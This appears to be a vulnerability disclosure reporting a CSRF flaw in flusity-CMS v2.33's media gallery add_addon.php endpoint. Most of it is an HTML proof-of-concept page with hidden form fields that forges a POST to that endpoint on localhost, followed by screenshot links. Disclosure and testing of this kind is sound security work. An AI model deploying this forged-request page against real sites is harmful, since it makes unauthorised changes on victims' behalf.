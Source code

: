 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /cover/addons/info_media_gallery/action/add_addon.php 

![1](https://github.com/TinkAnet/cve/assets/118334129/9f871611-ddd9-4946-aebd-440b2a61f4d4)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/cover/addons/info_media_gallery/action/add_addon.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="mode" value="create" />
      <input type="hidden" name="addon&#95;post&#95;edit&#95;id" value="" />
      <input type="hidden" name="id" value="19" />
      <input type="hidden" name="addon&#95;place&#95;id" value="8" />
      <input type="hidden" name="addon&#95;menu&#95;id" value="0" />
      <input type="hidden" name="gallery&#95;name" value="1" />
      <input type="hidden" name="gallery&#95;css&#95;style&#95;settings" value="dark" />
      <input type="hidden" name="img&#95;w" value="" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![2](https://github.com/TinkAnet/cve/assets/118334129/51bad25d-7802-48b8-b5b9-55d8c07d66aa)


Successed

![3](https://github.com/TinkAnet/cve/assets/118334129/8d2d65a6-eb8a-4ac8-9353-795b14f7d460)
